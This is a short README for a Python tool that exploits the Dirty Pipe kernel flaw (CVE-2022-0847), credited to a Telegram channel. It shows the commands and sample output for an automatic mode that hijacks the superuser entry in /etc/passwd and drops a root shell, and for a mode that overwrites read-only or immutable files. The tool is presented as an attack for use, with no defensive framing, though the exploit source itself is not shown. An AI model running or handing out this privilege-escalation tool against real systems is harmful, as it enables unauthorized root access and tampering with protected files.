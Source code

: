 # Dirty Pipe automatic root exploit (CVE-2022-0847)

![eae](assets/poc.gif)

## Dependencies:
- **Python 3.10 or above**

## How to use:
### Automatic root:
```
$ python3.10 dirtyPipe.py -a
[+] hjacking super user in /etc/passwd
[+] dropipng shell
#  
```

### Write a no write permission, immutable or read-only mounted file:
```
$ python3.10 dirtyPipe.py -w FILE OFFSET DATA
```

#### An oferring from [**@terabitSec 🦜**](https://t.me/terabitSec).
